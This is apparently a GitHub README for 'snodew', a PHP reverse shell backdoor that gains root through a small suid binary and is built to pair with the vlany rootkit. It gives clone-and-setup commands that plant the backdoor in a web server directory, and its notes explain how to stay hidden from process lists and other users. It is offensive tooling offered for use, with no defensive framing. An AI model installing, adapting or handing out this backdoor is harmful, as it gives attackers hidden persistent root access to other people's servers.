 # snodew
*snodew is a PHP reverse shell backdoor which uses a small suid binary to escalate privileges on connection*</br></br>snodew is made mainly to work alongside [vlany](https://github.com/mempodippy/vlany) but can also be setup as a regular root backdoor

## usage
```
git clone https://github.com/mempodippy/snodew.git
cd snodew/
./setup.sh [install dir] [password] [hidden extended attribute] [magic gid]
```

### example usage for regular (non-vlany infected) systems
```
cd /tmp
git clone https://github.com/mempodippy/snodew.git
cd snodew/
./setup.sh /var/www/html/blog sexlovegod X 0 # 'X' and '0' since extended attribute doesn't really matter,
                                             # and our suid binary will set our gid to 0
```
<img src="http://i.imgur.com/YneuIpp.png"/></br>
*Result of successful setup*

<img src="http://i.imgur.com/AwlnKt6.png"/></br>
*Result after following instructions given on our new page*

## notes
 * sh process spawned from service user is visible
 * if not being used alongside some kind of rootkit, everything you do is visible
 * it's only a reverse shell
 * when vlany is installed, simply su'ing to the service user won't allow them to see the files. vlany checks to see if an apache environment variable is also exported before giving access to the file, so that - by default - the file can only be accessed from a browser or from an owner shell
  * exporting the apache environment variable that vlany checks, after su'ing to the service user will circumvent this
 * suid possibly disabled
 * not using 'exit' to exit the shell will leave the process spawned by apache in process lists (ps, top etc)
